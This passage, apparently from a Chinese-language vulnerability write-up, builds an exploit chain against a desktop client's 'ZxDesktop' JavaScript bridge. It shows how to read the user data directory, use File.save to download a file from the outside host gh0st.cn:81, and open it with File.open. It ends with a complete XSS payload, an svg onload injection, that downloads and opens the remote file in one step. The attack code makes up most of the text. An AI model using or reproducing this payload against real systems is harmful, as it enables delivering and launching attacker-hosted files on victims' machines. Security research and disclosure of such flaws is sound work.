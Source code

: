 它的导出列表中有两个属性：dbPath、userDataPath，它们的内容都是一样的，指向了用户的数据目录：

```javascript
ZxDesktop.require("System").userDataPath
```

我们可以这样拼接，就有了下载文件的目录信息了：

```javascript
ZxDesktop.require("System").userDataPath + "/null/test.txt"
```

当我们满足所有条件后，就可以构造完整的攻击代码了：

1.下载文件：

```javascript
var a = ZxDesktop;

var b = a.require("File");

b.save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});
```

2.拼接文件路径，打开文件：

```javascript
b.open(a.require("System").userDataPath + "/null/test.txt");
```

3.最终 Exploit：

```html
"><svg onload='var a = ZxDesktop;var b = a.require("File");b.save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});b.open(a.require("System").dbPath + "/null/test.txt");'>
```

[![](assets/1703487068-e7cacde52d19b96ca4f8cc533798be95.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028761314895.jpg)
